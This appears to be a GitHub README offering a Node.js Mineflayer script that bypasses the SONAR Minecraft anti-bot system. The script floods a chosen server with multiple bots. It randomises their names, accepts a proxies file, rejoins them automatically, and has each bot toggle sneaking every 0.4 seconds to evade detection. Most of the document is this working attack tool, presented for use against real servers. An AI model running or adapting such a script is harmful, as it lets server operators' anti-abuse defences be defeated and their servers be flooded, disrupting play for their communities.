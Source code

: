 ## SONAR Antibot Bypass with Mineflayer

SONAR is a Minecraft AntiBot system that aims to detect and prevent bot attacks by analyzing player behavior. However, a simple bot implementation can bypass this system by mimicking human-like actions such as sneaking at 0.4-second intervals. This method can evade detection by the SONAR AntiBot system.

### How It Works
- The bot joins the server.
- Every 0.4 seconds, it sneaks and then stops sneaking.
- This bypasses SONAR's movement detection, making the bot appear legitimate.

### Simple Node.js Bypass Script
Below is a basic implementation of a SONAR bypass using Mineflayer.

```javascript
const mineflayer = require('mineflayer');
const readline = require('readline');
const chalk = require('chalk');
const figlet = require('figlet');
const { exec } = require('child_process');

// Clear terminal and set title
exec('clear');
exec('title SonarBypass - imscruz');
console.log(figlet.textSync('SONAR BYPASS', { horizontalLayout: 'full' }));
console.log(chalk.green('\n[ + ] SONAR Bypass Script Initialized'));

const rl = readline.createInterface({
    input: process.stdin,
    output: process.stdout
});

function askQuestion(query) {
    return new Promise(resolve => rl.question(query, answer => resolve(answer)));
}

(async () => {
    let botname = await askQuestion("Bot name? (Example: botname_%%random4char) ");
    botname += '_' + Math.random().toString(36).substring(2, 6);
    let server = await askQuestion("IP:Port? ");
    if (!/^\d+\.\d+\.\d+\.\d+:\d+$/.test(server)) {
        console.log(chalk.red("[ - ] Invalid IP:Port format! Exiting..."));
        process.exit(1);
    }
    let thread = await askQuestion("Thread count? ");
    let proxiesFile = await askQuestion("Proxies file (leave blank if none)? ");
    let joinDelay = await askQuestion("Join delay (min 3 sec)? ");
    while (parseInt(joinDelay) < 3) {
        joinDelay = await askQuestion("Join delay too low! Enter at least 3 seconds: ");
    }
    
    console.log(chalk.green("[ + ] Starting bypass..."));
    rl.close();

    function createBot() {
        const bot = mineflayer.createBot({
            host: server.split(':')[0],
            port: parseInt(server.split(':')[1]),
            username: botname
        });
        
        bot.on('spawn', () => {
            console.log(chalk.green(`[ + ] ${botname} joined`));
            setInterval(() => {
                bot.setControlState('sneak', true);
                setTimeout(() => bot.setControlState('sneak', false), 400);
            }, 400);
        });

        bot.on('error', (err) => {
            console.log(chalk.red(`[ - ] ${botname} can't connect: ${err.message}`));
        });

        bot.on('end', () => {
            console.log(chalk.yellow(`[+] ${botname} reconnected`));
            setTimeout(createBot, joinDelay * 1000);
        });
    }

    for (let i = 0; i < thread; i++) {
        setTimeout(createBot, i * joinDelay * 1000);
    }
})();

console.log(chalk.red("CTRL+C for stop BYPASSING"));
```

